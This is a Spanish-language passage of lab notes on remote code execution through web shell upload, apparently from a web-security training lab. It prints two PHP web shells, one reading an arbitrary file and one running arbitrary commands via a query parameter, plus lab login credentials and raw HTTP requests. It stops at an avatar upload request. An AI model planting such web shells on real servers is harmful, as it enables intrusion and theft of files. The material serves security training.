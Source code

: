 `<?php echo file_get_contents('/path/to/target/file'); ?>`

Una vez cargado, enviar una solicitud para este archivo malicioso devolverá el contenido del archivo de destino en la respuesta.

Un shell web más versátil podría verse así:

`<?php echo system($_GET['command']); ?>`

Este script le permite pasar un comando del sistema arbitrario a través de un parámetro de consulta de la siguiente manera:

`GET /example/exploit.php?command=id HTTP/1.1`

### Laboratorio: ejecución remota de código mediante carga de shell web

APRENDIZ

LABORATORIONo resuelto

Esta práctica de laboratorio contiene una función de carga de imágenes vulnerables. No realiza ninguna validación de los archivos que los usuarios cargan antes de almacenarlos en el sistema de archivos del servidor.

Para resolver la práctica de laboratorio, cargue un shell web PHP básico y utilícelo para filtrar el contenido del archivo `/home/carlos/secret`. Envíe este secreto usando el botón provisto en el banner del laboratorio.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:`wiener:peter`

```python
// Some code


Laboratorio: Ejecución remota de código mediante carga web shell 





NOS LOGUEAMOS CON WIENER Y SU PASSWD PETER, Y VEMOS EN EL PANEL QUE TENEMOS LA CARGA DE ARCHIVOS; INTENTAMOS CARGAR UN ARCHIVO CUALQUIERA DE PRUEVA EN ESTE ACASO UN.PNG PARA VER EL COMPROTAMIENTO DE LAS REQUEST Y RESPONSE:




REQUEST:


GET /generate_204 HTTP/1.1
Host: www.gstatic.com
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8
Connection: close






POST /my-account/avatar HTTP/1.1
Host: 0aab0075047886d0810e5c5600eb0033.web-security-academy.net
```
